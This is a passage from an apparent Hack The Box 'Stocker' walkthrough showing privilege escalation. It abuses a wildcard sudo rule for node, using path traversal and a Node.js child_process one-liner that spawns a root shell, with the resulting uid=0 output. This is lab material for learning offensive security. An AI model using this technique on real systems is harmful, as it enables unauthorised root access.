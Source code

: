 <br>

We have the wildcard on the node command for JS files. We can create our own file on other directory and use a [GTFOBin for Node](https://gtfobins.github.io/gtfobins/node/#sudo). In that directory, we can see a set of files but we don't care becasue we can trick the pack with ../../. Let's go to the /tmp folder and create our file with the payload:

```bash
angoose@stocker:~$ cd /usr/local/scripts/
angoose@stocker:/usr/local/scripts$ nano k.js
angoose@stocker:/usr/local/scripts$ ls -la
total 32
drwxr-xr-x  3 root root 4096 Dec  6 10:33 .
drwxr-xr-x 11 root root 4096 Dec  6 10:33 ..
-rwxr-x--x  1 root root  245 Dec  6 09:53 creds.js
-rwxr-x--x  1 root root 1625 Dec  6 09:53 findAllOrders.js
-rwxr-x--x  1 root root  793 Dec  6 09:53 findUnshippedOrders.js
drwxr-xr-x  2 root root 4096 Dec  6 10:33 node_modules
-rwxr-x--x  1 root root 1337 Dec  6 09:53 profitThisMonth.js
-rwxr-x--x  1 root root  623 Dec  6 09:53 schema.js
```


Create the file to spawn a shell (sh) in Node.JS and execute it:

```bash
angoose@stocker:/tmp$ nano k.js
angoose@stocker:/tmp$ cat k.js 
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
angoose@stocker:/tmp$ sudo /usr/bin/node /usr/local/scripts/../../../tmp/k.js
\# id
uid=0(root) gid=0(root) groups=0(root)

```

And we have root:


<p align="center">
  <img src="/images/walkthroughs/hackthebox/stocker/7_0_root.png" width="90%"/>
</p>